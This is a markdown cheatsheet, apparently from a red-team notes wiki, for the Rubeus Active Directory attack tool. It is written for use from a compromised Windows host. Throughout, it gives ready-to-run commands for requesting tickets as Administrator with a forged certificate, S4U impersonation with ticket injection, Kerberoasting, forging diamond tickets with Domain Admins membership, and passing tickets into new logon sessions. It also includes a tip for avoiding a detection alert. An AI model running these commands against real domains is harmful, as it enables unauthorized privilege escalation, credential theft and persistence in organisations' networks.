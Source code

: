 # Rubeus Cheatsheet

Rubeus is Active Directory exploitation tool that is predominately used from compromised domain-joined Windows host, so gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on the target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions).

Impersonate a User for [[AD-Certificate-Exploitation]], use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```


In [[GenericAll]] abuse; we can then use hash the plaintext password into its RC4_HMAC form:
```powershell
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:
```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

Kerberoast
```powershell
.\Rubeus.exe kerberoast /creduser:$domain.$tld\$user /credpassword:Password123! /nowrap
```


Diamond Tickets
```powershell
.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512
```


[xct Using Credentials](https://notes.vulndev.io/wiki/redteam/active-directory/using-credentials): *"A logon session can only accommodate one TGT at a time, therefore its sometimes required to create another session before applying a TGT to it."*
```powershell
Rubeus triage
Rubeus createnetonly /program:c:\windows\system32\cmd.exe
Rubeus triage
Rubeus ptt /luid:<luid> /ticket:<ticket>
```



## References

[Hacktricks - Diamond Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket)
[xct Using Credentials](https://notes.vulndev.io/wiki/redteam/active-directory/using-credentials)